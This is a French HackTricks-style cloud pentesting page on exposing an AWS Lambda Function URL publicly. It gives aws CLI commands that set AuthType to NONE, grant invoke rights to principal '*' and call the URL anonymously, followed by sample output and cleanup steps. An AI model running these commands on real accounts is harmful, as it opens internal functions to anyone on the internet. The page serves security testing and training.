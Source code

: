 # AWS - Lambda Function URL Exposition publique (AuthType NONE + Public Invoke Policy)

{{#include ../../../../banners/hacktricks-training.md}}

Transformez une Lambda Function URL privée en un endpoint public non authentifié en basculant le Function URL AuthType sur NONE et en attachant une politique basée sur la ressource qui accorde lambda:InvokeFunctionUrl à tout le monde. Cela permet l'invocation anonyme de fonctions internes et peut exposer des opérations backend sensibles.

## Exploitation

- Prérequis : lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Région : us-east-1

### Étapes
1) Assurez-vous que la fonction dispose d'une Function URL (par défaut AWS_IAM) :
```
aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

2) Passez l'URL en public (AuthType NONE) :
```
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
```

3) Ajoutez une déclaration de politique basée sur la ressource pour autoriser les principaux non authentifiés :
```
aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
```

4) Récupérez l'URL et invoquez sans identifiants :
```
URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
curl -sS "$URL"
```

### Impact
- La fonction Lambda devient accessible de manière anonyme via Internet.

### Exemple de sortie (200 non authentifié)
```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```
### Nettoyage
```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```
{{#include ../../../../banners/hacktricks-training.md}}
